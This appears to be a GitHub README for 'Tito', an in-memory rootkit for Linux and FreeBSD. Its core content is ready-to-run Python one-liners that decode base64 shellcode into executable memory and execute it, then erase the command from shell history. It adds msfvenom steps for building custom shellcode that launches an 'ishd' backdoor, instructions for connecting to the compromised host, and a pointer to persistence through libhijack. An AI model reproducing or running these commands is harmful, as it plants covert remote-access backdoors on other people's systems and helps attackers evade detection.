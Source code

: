 # Tito
An In-Memory Rootkit For Linux

<h2>From Tito to Stalin:</h2>

"Stop sending people to kill me. We’ve already captured five of them, one of them with a bomb and another with a rifle. If you don’t stop sending killers, I’ll send one to Moscow, and I won’t have to send a second."

You can run the entire rootkit from the Linux command-line like so:

```
python3 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp9////0iNBe////9Iu6ajGtSlB5bkSDFYJ0gt+P///+L07hs1tsxpuZfOo4OE8VjEgs6OeYD7VX75pqMa+81o+4GJ03LnlnW5rfXrX5jpKuDUiJE1vdZv8uTw9E6KzzzO66OjGtSlB5bk"; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("... and I won’t have to send a second."); shell_func()' && history -d $(history | awk 'END { print $1 }')
```

With FreeBSD, it will depend on the version of python installed. If you have python3.11 you can just use this:

```
python3.11 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp+P///0iNBe////9Iu67h2fdth+YDSDFYJ0gt+P///+L05tALH0+H5gOBibaaCKiWa53Sq9gZ7pJsgaiKvyjLqi7Y0ffEQu6Va8rhhqU6z2/l5tAZv+5P3Qyr4dn3bYfmAw=="; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("...and I will not have to send a second."); shell_func()' 2>/dev/null
```

The path to binary here in these examples is hardcoded, but you may go into the ISHELL-v0.3 folder and type 'make linux' or 'make bsd' to build ish and ishd. Then you can make your own shellcode like this:

```
msfvenom -p linux/x64/exec CMD=/path/to/ishd -f c -b "\x00\x0a\x0d" > shellcode.txt
```

You can parse out only the shellcode and base64 encode it like this:

```
grep '"' shellcode.txt | tr "\n" " " | sed -e 's/\" \"//g;s/\"//g;s/;//g'&& echo " " | base64
```

Then you may run ish with the ip of the device the rootkit was ran on to connect.

Currently tested on x86_64 Debian Trixie and FreeBSD 14.1

People from HardenedBSD have reported the shell here will also work with libhijack to add persistance. That utility will load a Shared Library in memory making this a complete In-Memory rootkit for BSD if you choose. 

